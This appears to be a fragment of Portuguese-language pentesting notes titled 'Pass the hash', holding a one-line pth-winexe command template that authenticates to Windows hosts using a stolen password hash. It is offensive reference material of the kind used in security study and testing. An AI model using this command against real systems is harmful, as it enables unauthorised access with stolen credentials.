 # Pass the hash

<pre class="language-bash"><code class="lang-bash"><strong>#Mais utilizado em sistemas windows antigos
</strong>pth-winexe -U user%HASH_USER
</code></pre>
